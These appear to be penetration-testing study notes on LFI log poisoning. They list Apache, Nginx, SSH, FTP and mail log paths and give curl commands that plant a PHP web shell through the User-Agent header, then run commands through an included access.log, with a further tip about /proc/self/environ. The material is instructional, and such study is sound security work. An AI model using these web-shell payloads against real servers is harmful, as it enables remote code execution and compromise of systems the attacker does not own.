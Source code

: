 
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

The path taken in this not can also be applied to ssh,ftp,mail
	E.g
		Send malicious mail document with php and use LFI to execute on the saved mail file

Log File List
	/var/log/apache2/error.log
	/var/log/apache2/access.log
	/var/log/sshd.log
	/var/log/mail
	/var/log/vsftpd.log

Log File Paths(Might have different paths use this [LFI FUZZ](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI))
	Default
		Apache
			 `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows
		Nginx
			`/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows

Testing for log file include(Look for parameters we control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

(Control the User-Agent with burp suite or curl)
```shell
curl -s --user-agent '<?php system($_GET["cmd"]); ?>' 'http://<SERVER_IP>:<PORT>/index.php'
```

Execute on user-agent web shell
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id"
```

**Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.



